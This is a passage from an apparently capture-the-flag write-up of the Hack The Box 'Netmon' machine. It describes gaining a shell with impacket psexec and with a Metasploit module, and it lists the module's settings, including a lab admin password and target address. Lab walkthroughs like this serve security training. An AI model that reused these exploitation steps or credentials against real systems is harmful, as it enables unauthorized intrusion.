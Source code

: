 
Or what if we wanted a full shell? We could use psexec from impacket to do that. Note that we need to escape the '!' when we log in.

![](/images/HTB/Netmon/psexec.png)

Boom.

## Metasploit

There is now a metasploit module to make matters even easier.

![](/images/HTB/Netmon/metasploit_search.png)

All we need to do is set our lhost (which tends to come up with the wrong interface), admin_password, and rhosts. 

```
set lhost tun0
set admin_password PrTg@dmin2019
set rhosts 10.10.10.152
```
Type run (or exploit) and we are done.

![](/images/HTB/Netmon/metasploit_owned.png)
